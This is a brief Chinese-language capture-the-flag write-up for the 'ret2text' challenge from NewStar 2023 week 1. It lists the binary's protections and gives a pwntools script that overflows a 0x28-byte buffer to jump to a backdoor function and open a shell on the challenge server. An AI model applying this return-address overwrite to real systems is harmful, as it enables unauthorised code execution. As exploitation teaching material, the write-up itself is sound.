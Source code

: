 ```yaml
---
title: newstar2023 week1 - ret2text
date: 2023/9/25 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`ret2text`, NX on, PIE off, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

`backdoor`函数直接打开sh了，打就完了

## EXPLOIT

```python
from pwn import *
sh = remote("node4.buuoj.cn", 29533)
sh.sendline(b'0'*0x28 + p64(0x004011fb)) # addr of backdoor
sh.interactive()
```

Done.
